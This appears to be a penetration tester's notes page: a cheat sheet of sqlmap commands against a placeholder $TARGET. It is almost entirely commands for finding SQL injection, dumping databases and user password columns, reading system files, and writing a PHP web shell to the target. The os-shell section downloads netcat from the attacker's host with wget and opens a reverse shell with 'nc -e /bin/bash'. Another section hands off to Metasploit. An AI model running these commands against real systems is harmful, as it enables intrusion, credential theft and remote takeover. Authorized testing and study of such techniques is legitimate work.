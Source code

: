 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3
```

#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```

Choose an architecture, if you get "no output", redo, try other architecture.

Kali:
```bash - kali
cp /usr/bin/nc .
```

```bash - target
wget "http://$KALI/nc" -O /tmp/nc
```

```bash - target
chmod +x /tmp/nc
```

![[rlwrap]]

```bash - target
/tmp/nc -e /bin/bash $KALI 443
```

#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```

```SQL - target
select user,password from mysql.user;
```

#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```

#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```

```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```

Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```

Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```


#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```

![[Pasted image 20220226224727.png]]

#### Dump Databases

Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```

Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```

Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```

Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```

Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```

Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```

#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```

#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```

#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```

#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```













